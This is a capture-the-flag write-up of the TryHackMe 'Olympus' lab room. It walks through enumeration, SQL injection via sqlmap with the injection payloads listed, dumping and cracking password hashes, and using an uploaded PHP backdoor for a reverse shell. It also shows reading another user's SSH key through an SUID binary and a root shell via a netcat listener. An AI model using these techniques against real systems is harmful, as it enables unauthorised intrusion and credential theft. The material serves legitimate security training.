

# Writeup Olympus room on TryHackMe (THM)

Link to the room https://tryhackme.com/room/olympusroom

## Enumeration

### Portscan - nmap
Initial scan to get open ports on the server
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-25 13:41 EDT
Nmap scan report for 10.10.84.56
Host is up (0.046s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0a:78:14:04:2c:df:25:fb:4e:a2:14:34:80:0b:85:39 (RSA)
|   256 8d:56:01:ca:55:de:e1:7c:64:04:ce:e6:f1:a5:c7:ac (ECDSA)
|_  256 1f:c1:be:3f:9c:e7:8e:24:33:34:a6:44:af:68:4c:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://olympus.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.38 seconds
```
### Virtualhost enumeration (vhost)

The nmap output shows a redirection to http://olympus.thm 
so adding an entry in the hosts file this can also be seen by visting the site on the ip http://10.10.84.56


```bash
10.10.84.56 olympus.thm
```


So to test for additional virtualhosts using gobuster

```bash
─$ gobuster vhost -u http://olympus.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://olympus.thm
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/08/25 13:53:03 Starting gobuster in VHOST enumeration mode
===============================================================

===============================================================
2022/08/25 13:54:33 Finished
===============================================================

```
Which didn't give us much


### Web port
Using feroxbuster to search for interresting files on web

```bash
$ feroxbuster -u http://olympus.thm -w /usr/share/wordlists/dirb/big.txt                                                                                                                                                                  
                                                                                                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___                                                                                                                                                                                          
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__                                                                                                                                                                                           
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___                                                                                                                                                                                          
by Ben "epi" Risher 🤓                 ver: 2.7.0                                                                                                                                                                                           
───────────────────────────┬──────────────────────                                                                                                                                                                                          
 🎯  Target Url            │ http://olympus.thm                                                                                                                                                                                             
 🚀  Threads               │ 50                                                                                                                                                                                                             
 📖  Wordlist              │ /usr/share/wordlists/dirb/big.txt                                                                                                                                                                              
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]                                                                                                                                                             
 💥  Timeout (secs)        │ 7                                                                                                                                                                                                              
 🦡  User-Agent            │ feroxbuster/2.7.0                                                                                                                                                                                              
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml                                                                                                                                                                             
 🏁  HTTP methods          │ [GET]                                                                                                                                                                                                          
 🔃  Recursion Depth       │ 4                                                                                                                                                                                                              
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest                                                                                                                                                          
───────────────────────────┴──────────────────────                                                                                                                                                                                          
 🏁  Press [ENTER] to use the Scan Management Menu™                                                                                                                                                                                         
──────────────────────────────────────────────────                                                                                                                                                                                          
200      GET       47l      128w     1948c http://olympus.thm/                                                                                                                                                                              
403      GET        9l       28w      276c http://olympus.thm/.htaccess                                                                                                                                                                     
403      GET        9l       28w      276c http://olympus.thm/.htpasswd                                                                                                                                                                     
301      GET        9l       28w      315c http://olympus.thm/javascript => http://olympus.thm/javascript/                                                                                                                                  
403      GET        9l       28w      276c http://olympus.thm/javascript/.htaccess                                                                                                                                                          
403      GET        9l       28w      276c http://olympus.thm/javascript/.htpasswd                                                                                                                                                          
403      GET        9l       28w      276c http://olympus.thm/phpmyadmin                                                                                                                                                                    
403      GET        9l       28w      276c http://olympus.thm/server-status                                                                                                                                                                 
301      GET        9l       28w      311c http://olympus.thm/static => http://olympus.thm/static/                                                                                                                                          
301      GET        9l       28w      322c http://olympus.thm/javascript/jquery => http://olympus.thm/javascript/jquery/                                                                                                                    
301      GET        9l       28w      315c http://olympus.thm/~webmaster => http://olympus.thm/~webmaster/                                                                                                                                  
403      GET        9l       28w      276c http://olympus.thm/~webmaster/.htpasswd                                                                                                                                                          
403      GET        9l       28w      276c http://olympus.thm/~webmaster/.htaccess                                                                                                                                                          
200      GET       21l      169w     1070c http://olympus.thm/~webmaster/LICENSE                                                                                                                                                            
301      GET        9l       28w      321c http://olympus.thm/~webmaster/admin => http://olympus.thm/~webmaster/admin/                                                                                                                      
403      GET        9l       28w      276c http://olympus.thm/~webmaster/admin/.htaccess                                                                                                                                                    
403      GET        9l       28w      276c http://olympus.thm/~webmaster/admin/.htpasswd                                                                                                                                                    
403      GET        9l       28w      276c http://olympus.thm/javascript/jquery/.htaccess                                                                                                                                                   
403      GET        9l       28w      276c http://olympus.thm/javascript/jquery/.htpasswd                                                                                                                                                   
301      GET        9l       28w      319c http://olympus.thm/~webmaster/css => http://olympus.thm/~webmaster/css/                                                                                                                          
301      GET        9l       28w      321c http://olympus.thm/~webmaster/fonts => http://olympus.thm/~webmaster/fonts/                                                                                                                      
301      GET        9l       28w      325c http://olympus.thm/~webmaster/admin/css => http://olympus.thm/~webmaster/admin/css/                                                                                                              
301      GET        9l       28w      319c http://olympus.thm/~webmaster/img => http://olympus.thm/~webmaster/img/                                                                                                                          
WLD      GET        9l       28w      276c Got 403 for http://olympus.thm/~webmaster/img/1a7cff757a214eb
```

a webmaster/admin pages is found on  http://olympus.thm/~webmaster/


from there a searchpage can found which seems to be vulnable to sqli


## Exploiting SQLI

So intercepting a search request with burp and saving it to disk so sqlmap can be used to test for sqli


```bash
$ sqlmap -r search.req
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:32:45 /2022-08-25/

[14:32:45] [INFO] parsing HTTP request from 'search.req'
[14:32:45] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:32:45] [INFO] testing connection to the target URL
[14:32:45] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:32:46] [INFO] testing if the target URL content is stable
[14:32:46] [INFO] target URL content is stable
[14:32:46] [INFO] testing if POST parameter 'search' is dynamic
[14:32:46] [WARNING] POST parameter 'search' does not appear to be dynamic
[14:32:46] [INFO] heuristic (basic) test shows that POST parameter 'search' might be injectable (possible DBMS: 'MySQL')
[14:32:46] [INFO] heuristic (XSS) test shows that POST parameter 'search' might be vulnerable to cross-site scripting (XSS) attacks
[14:32:46] [INFO] testing for SQL injection on POST parameter 'search'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[14:32:55] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:32:55] [WARNING] reflective value(s) found and filtering out
[14:32:56] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:32:56] [INFO] testing 'Generic inline queries'
[14:32:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:32:59] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[14:33:02] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[14:33:02] [INFO] POST parameter 'search' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --string="result")
[14:33:02] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[14:33:02] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[14:33:02] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[14:33:02] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[14:33:02] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[14:33:02] [INFO] POST parameter 'search' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
[14:33:02] [INFO] testing 'MySQL inline queries'
[14:33:02] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[14:33:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[14:33:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[14:33:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[14:33:03] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[14:33:03] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[14:33:03] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:33:13] [INFO] POST parameter 'search' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[14:33:13] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:33:13] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[14:33:13] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:33:13] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:33:14] [INFO] target URL appears to have 10 columns in query
[14:33:14] [INFO] POST parameter 'search' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[14:33:14] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 134 HTTP(s) requests:
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: search=dsf' OR NOT 8178=8178#&submit=

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: search=dsf' AND GTID_SUBSET(CONCAT(0x716a707871,(SELECT (ELT(3140=3140,1))),0x7171767071),3140)-- ZfAd&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=dsf' AND (SELECT 8439 FROM (SELECT(SLEEP(5)))aMTl)-- GTUW&submit=

    Type: UNION query
    Title: MySQL UNION query (NULL) - 10 columns
    Payload: search=dsf' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716a707871,0x464942657a74474f47636d73774859475575714b5759447944416554676f4c414c546f544b485064,0x7171767071),NULL,NULL,NULL,NULL,NULL,NULL#&submit=
---
[14:33:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[14:33:18] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/olympus.thm'

[*] ending @ 14:33:18 /2022-08-25/

```

with the found sqli first flag can be dumped

```bash
$ sqlmap -r search.req -D olympus -T flag --dump
```

next dumping the users
```bash
$ sqlmap -r search.req -D olympus -T users --dump
```

reveals three users

```bash
Database: olympus
Table: users
[3 entries]
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name  | user_role | user_email             | user_image | user_lastname | user_password                                                | user_firstname |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+
| 3       | <blank>  | prometheus | User      | prometheus@olympus.thm | <blank>    | <blank>       | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C | prometheus     |
| 6       | dgas     | root       | Admin     | root@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK | root           |
| 7       | dgas     | zeus       | User      | zeus@chat.olympus.thm  | <blank>    | <blank>       | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC | zeus           |
+---------+----------+------------+-----------+------------------------+------------+---------------+--------------------------------------------------------------+----------------+

using hashcat to crack the hashes only one for prometheus will crach

```bash
$ hashcat -a 0 -w 3 -m 3200  hashes  /usr/share/wordlists/rockyou.txt
```


## Web Access

After logging in with the promethues users. we can see other users with an email for another domain


so adding chat.olympus.thm to the host file reveals another login prompt



after logging in with the same credentials in this web site a live chat sessions is found


It is possible to upload a file and doing some directory busting a upload folder is found but no trace of the backdoor uploaded.
but also a phpmyadmin folder is found so back to sqlmap to dump some more information

```bash
$ sqlmap -r search.req -D olympus -T chats --dump

....
....
Database: olympus
Table: chats
[7 entries]
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| dt         | msg                                                                                                                                                             | file                                 | uname      |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | 47c3210d51761686f3af40a875eeaaea.txt | prometheus |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | <blank>                              | prometheus |
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. He's still working on it. | <blank>                              | zeus       |
| 2022-08-26 | here                                                                                                                                                            | <blank>                              | prometheus |
| 2022-08-26 | Attached : backdoor.php                                                                                                                                         | 13870bd3c9b18b7260ddd5c4db8577d8.php | prometheus |
| 2022-08-26 | test                                                                                                                                                            | <blank>                              | prometheus |
| 2022-08-26 | test                                                                                                                                                            | <blank>                              | prometheus |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
```

so now it is possible to get to the shell http://chat.olympus.thm/uploads/13870bd3c9b18b7260ddd5c4db8577d8.php 
a get a reverse shell 

## Second flag User flag
In turns out the www-data user can read the flag in users zeus folder


## Third flag
After spending a lot of time a suid binary was found 

```bash
www-data@olympus:/home/zeus$ find / -type f -perm -4000 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/cputils
/usr/bin/sudo
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/pkexec
/usr/bin/su
/usr/bin/chfn
......
```

the cputils short for copy utils can read all files and can therefor read the id_rsa of the zeus user
after copying it to the attack box. Since the public key is password protect we need to crack the password first using
ssh2john and john

```bash
$ ssh2john zeus.idrsa > zeus.idrsa.out

```
and


```bash
$  john --wordlist=/usr/share/wordlists/rockyou.txt zeus.idrsa.out
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED        (zeus.idrsa)
```

with the password we can now login as zeus

```bash
─$ ssh -i zeus.idrsa zeus@olympus.thm
Enter passphrase for key 'zeus.idrsa':
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 25 Aug 2022 08:02:19 PM UTC

  System load:  0.08              Processes:             125
  Usage of /:   45.1% of 9.78GB   Users logged in:       0
  Memory usage: 76%               IPv4 address for eth0: 10.10.84.56
  Swap usage:   0%


33 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jul 16 07:52:39 2022
zeus@olympus:~$
```
After a lot of enumeration a very promising file is found

```bash
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ ls -la
total 12
drwxrwx--x 2 root     zeus     4096 Jul 15 20:55 .
drwxr-xr-x 3 www-data www-data 4096 May  1 09:01 ..
-rwxr-xr-x 1 root     zeus        0 Apr 14 09:54 index.html
-rwxr-xr-x 1 root     zeus     1589 Jul 15 20:55 VIGQFQFMYOST.php
```

inside the file is a password required for utilizing the funcionality of the file a reverseshell 


so before calling the url we start a netcat listener in our ssh session afterward navigating to
http://10.10.84.56/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php?ip=127.0.0.1&port=9001

```bash
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 45476
Linux olympus 5.4.0-109-generic #123-Ubuntu SMP Fri Apr 8 09:10:54 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 20:14:40 up  2:37,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
zeus     pts/1    10.11.18.173     20:02    6.00s  0.06s  0.00s nc -nvlp 9001
python3 -c "import pty;pty.spawn('/bin/bash')"
root@olympus:/
```